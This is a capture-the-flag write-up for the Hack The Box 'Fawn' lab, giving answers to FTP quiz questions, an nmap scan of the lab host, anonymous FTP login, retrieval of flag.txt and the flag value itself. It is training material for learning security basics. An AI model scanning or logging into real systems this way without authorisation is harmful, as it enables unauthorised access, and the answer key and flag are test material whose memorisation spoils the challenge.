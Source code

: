 # Fawn
* Source:  [Hack the Box](https://hackthebox.com/)
* Challenge: Dancing
* Topic: [[FTP]]
* Difficulty: Very easy
* Date: 12-04-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Tasks
1. What does the 3-letter acronym FTP stand for? 
 - **File Transfer Protocol**
2. What communication model does FTP use, architecturally speaking? 
- **Client-Server model**
3. What is the name of one popular GUI FTP program? 
- **FileZilla**
4. Which port is the FTP service active on usually?
- **21 TCP**
5. What acronym is used for the secure version of FTP? 
- **SFTP**
6. What is the command we can use to test our connection to the target? 
- **ping**
7. From your scans, what version is FTP running on the target? 
- **vsftpd 3.0.3**
8. From your scans, what OS type is running on the target?
- **Unix**

---
## Solution:
First, we need to scan the target with `nmap`.

Command:

`nmap -n -sC -sV 10.129.87.103`

`-n`: No DNS look up (Good [OPSEC](https://en.wikipedia.org/wiki/Operations_security)).

`-sC`: Run scripts during scan.

`-sV`: Try to detect the version of running services.

```console
┌──(kali㉿kali)-[~]
└─$ nmap -n -sC -sV 10.129.87.103
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 13:39 EDT
Nmap scan report for 10.129.87.103
Host is up (0.071s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.15
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              32 Jun 04  2021 flag.txt
Service Info: OS: Unix
```

An FTP server with anonymous login enabled and a file called `flag.txt`. We can use `ftp` to connect. 

User:pass `anonymous:<BLANK>`

```
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp 10.129.87.103
Connected to 10.129.87.103.
220 (vsFTPd 3.0.3)
Name (10.129.87.103:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```

We can get the `flag.txt` file by using the `get` command.

Type `exit` to gracefully close the connection afterwards.

```
ftp> get flag.txt
local: flag.txt remote: flag.txt
229 Entering Extended Passive Mode (|||36066|)
150 Opening BINARY mode data connection for flag.txt (32 bytes).
100% |*************************************************|    32      416.66 KiB/s    00:00 ETA
226 Transfer complete.
32 bytes received in 00:00 (0.44 KiB/s)
ftp> exit
221 Goodbye.
```

To see what a file contains we can use `cat`.

```
┌──(kali㉿kali)-[~/Downloads]
└─$ cat flag.txt
035db21c881520061c53e0536e44f815
```

**Flag:** `035db21c881520061c53e0536e44f815`

---
**Tags:** [[HackTheBox]]